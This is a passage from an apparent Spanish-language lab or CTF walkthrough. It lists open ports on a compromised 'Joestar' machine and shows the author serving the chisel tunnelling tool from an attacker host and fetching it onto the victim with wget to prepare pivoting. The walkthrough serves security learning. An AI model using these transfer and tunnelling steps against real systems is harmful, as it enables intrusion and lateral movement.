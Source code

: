 Estos son los puertos abiertos de la maquina `10.10.0.29` que es la `Joestar`

```bash
bash-5.0# ./portDiscovery.sh 
[+] Port 22 - OPEN
[+] Port 53 - OPEN
[+] Port 80 - OPEN
[+] Port 110 - OPEN
[+] Port 143 - OPEN
[+] Port 5355 - OPEN
```

Si los queremos hacer el escaneo desde nuestra maquina de atacante necesitamos el `chisel`

<https://github.com/jpillora/chisel/releases/tag/v1.8.1>

```bash
❯ gunzip chisel_1.8.1_linux_amd64.gz
❯ mv chisel_1.8.1_linux_amd64 chisel
❯ ls
 chisel   lfi.sh
```

```bash
❯ chmod +x chisel
❯ ./chisel

  Usage: chisel [command] [--help]

  Version: 1.8.1 (go1.19.4)

  Commands:
    server - runs chisel in server mode
    client - runs chisel in client mode

  Read more:
    https://github.com/jpillora/chisel
```

Vamos a pasarlo ala maquina victima

```bash
❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...


```

Y lo pasamos ala maquina

```bash
bash-5.0# cd /tmp
bash-5.0# pwd
/tmp
bash-5.0# wget http://192.168.1.94/chisel
--2023-04-03 15:14:37--  http://192.168.1.94/chisel
Connecting to 192.168.1.94:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 8384512 (8.0M) [application/octet-stream]
Saving to: ‘chisel’

chisel                          100%[=======================================================>]   8.00M  --.-KB/s    in 0.06s   

2023-04-03 15:14:37 (139 MB/s) - ‘chisel’ saved [8384512/8384512]

bash-5.0# chmod +x chisel 
bash-5.0# 

```